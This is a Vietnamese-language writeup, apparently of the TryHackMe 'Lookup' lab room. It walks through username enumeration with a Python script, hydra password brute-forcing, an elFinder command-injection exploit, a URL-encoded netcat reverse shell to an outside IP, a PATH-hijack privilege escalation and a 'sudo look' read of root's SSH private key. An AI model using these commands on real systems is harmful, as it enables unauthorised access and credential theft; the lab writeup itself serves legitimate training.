<div align="center">
    <h1>🕵️‍♂️ TryHackMe Lookup Writeup 🔍</h1>
</div>

## 🚀 1. Khởi động target



## 🔍2. Recon

- Như thường lệ, quét `nmap` để phát hiện các cổng mở.



- Phát hiện cổng `22` cho SSH và 80 cho http server đang được mở.

- Thêm địa chỉ ip và domain vào /`etc/hosts`



- Truy cập mục tiêu, đây là một trang đăng nhập gồm trường `username` và `password`



- Trước khi khai thác sâu vào trang này, thử quét các thư mục ẩn, tuy nhiên không thu được kết quả



## 🔑3. Khai thác
- Nhập thử thông tin bất kì vào form đăng nhập, ta nhận được thông báo tài khoản và mật khẩu sai, sau đó được chuyển hướng về trang đăng nhập sau 3s.



- Tuy nhiên sau khi thử với username là `admin` thì nhận được thông báo có phần khác. Cụ thể nhận được thông báo sai mật khẩu.



- Đây là một lỗi khiến ta biết được tài khoản `admin` là hợp lệ, từ đó có thể thử các username khác nhau và tìm được tên hợp lệ.

- Có thể sử dụng các công cụ có sẵn để brute force tài khoản, nhưng trong bài này, tôi tạo một đoạn python code để dò tài khoản hợp lệ:

```python
import requests
import argparse
import sys

def enumerate_usernames(url, wordlist_path):
    try:
        with open(wordlist_path, 'r') as file:
            usernames = [line.strip() for line in file]
    except FileNotFoundError:
        print(f"[!] File not found: {wordlist_path}")
        sys.exit(1)

    print(f"[+] Starting username enumeration on {url}")
    
    for username in usernames:
        data = {
            "username": username,
            "password": "1234"  # Mật khẩu giả định
        }

        try:
            response = requests.post(url, data=data, timeout=5)
        except requests.RequestException as e:
            print(f"[!] Request failed for {username}: {e}")
            continue

        if "Wrong password" in response.text:
            print(f"[+] Valid username found: {username}")
        elif "Wrong username or password" in response.text:
            print(f"[-] Invalid username: {username}")
        else:
            print(f"[?] Unexpected response for {username}")
    
    print("[+] Enumeration finished.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Username enumeration via error-based responses.")
    parser.add_argument("-u", "--url", required=True, help="Target login URL (e.g. http://lookup.thm/login.php)")
    parser.add_argument("-w", "--wordlist", required=True, help="Path to username wordlist")

    args = parser.parse_args()
    enumerate_usernames(args.url, args.wordlist)
```

- Chạy script này

```
python lookup.py -u http://lookup.thm/login.php -w /usr/share/seclists/Usernames/Names/names.txt 
```



- Tool này sẽ thử và trả về username hợp lệ



- Ngoài admin, tìm được một username khác là `jose`



- Tiếp thục sử dụng `hydra` để brute force mật khẩu ứng với username này.

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt 10.10.79.185 http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password" -V
```

- Thu được mật khẩu cho tài khoản `jose` là `password123`
- Sau khi đã có thông tin xác thực `jose:password123`, đăng nhập vào hệ thống.



- Lưu ý, thêm `files.lookup.thm` vào `/etc/hosts`



- Sau khi đăng nhập, có vẻ đây là giao diện của một trình quản lý file là `elFinder`.

- Thông tin phiên bản được sử dụng là `2.1.47`



- Tìm kiếm thì phát hiện ra có lỗ hổng ứng với phiên bản cũ này và có thể dẫn đến RCE(`CVE-2019-9194`)



- Cụ thể `elFinder` hỗ trợ tính năng resize (thay đổi kích thước ảnh) thông qua tham số `cmd=resize`. Trong quá trình xử lý ảnh này, ứng dụng gọi đến lệnh hệ thống như `convert` hoặc `imagemagick`.

- Phiên bản `elFinder <= 2.1.47` không kiểm tra kỹ tên tệp, nên nếu tên tệp ảnh được chèn thêm mã độc, thì lệnh hệ thống sẽ bị tiêm lệnh shell.

- Tạo một file ảnh `SecSignal.jpg` sau đó thực thi script tương ứng từ exploit database https://www.exploit-db.com/exploits/46481



- Thu được shell tới hệ thống

- Tuy nhiên đây có vẻ chỉ là một Pseudo shell nên không có quyền đầy đủ, vì vậy, tạo một reverse shell mới đến hệ thống.



- Url encode shell tạo được

```bash                                                      
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.21.175.20%204444%20%3E%2Ftmp%2Ff
```



- Thành công tạo reverse shell tới 



- Flag cần tìm có vẻ nằm trong file user.txt của user `think`


- Tuy nhiên, shell hiện tại không có quyền đọc, vì vậy cần tìm cách leo quyền sang user think.

- Tìm các file có quyền `SUID` sử dụng lệnh

```bash
find / -perm -4000 -type f 2>/dev/null
```



- Tìm được một file khá lạ là `/usr/sbin/pwm`.

- Chạy thử file này, có vẻ nó chạy lệnh `id` sau đó sử dụng kết quả của lệnh này để đọc một file password nào đó.



- Với thông tin trên, nếu có thể giả mạo được lệnh `id` để trả về user `think` thì ta có thể lấy được mật khẩu của người dùng này.

- Với ý tưởng trên, chỉnh sửa `$PATH` để hệ thống thực thi lệnh từ `/tmp`



- Sau đó tạo file `id` giả với nội dung như sau:



- Chạy lại file `/usr/sbin/pwm`, thành công lấy được một danh sách mật khẩu



- Khi tôi định sử dụng danh sách trên để brute force mật khẩu, tuy nhiên nhận thấy một mật khẩu có vẻ chính xác.



- Sử dụng mật khẩu này để đăng nhập thông qua SSH thì thành công.



- Sau đó thành công thu được user flag





- Tiếp theo, cố gắng leo quyền root để thu được root flag.

- Kiểm tra `sudo -l`, thấy rằng ta có thể chạy `look` dưới quyền root mà không cần mật khẩu.



- Kiểm tra [GTFOBins](https://gtfobins.github.io/), có thể leo quyền thông qua tool này.


- Có thể đoán được root flag nằm trong `/root/root.txt`, vì vậy chạy lệnh sau:

```bash
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"	
```



- Thành công lấy được root flag.

- Tuy nhiên, nếu muốn có quyền truy cập trực tiếp vào root, có thể sử dụng cách khác.

- Láy ssh key của root, sử dụng lệnh

```
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"	
```



- Sau đó, đăng nhập root thông qua ssh bằng private key này, thành công vào được root.



=> Hoàn thành room 🔥🔥🔥




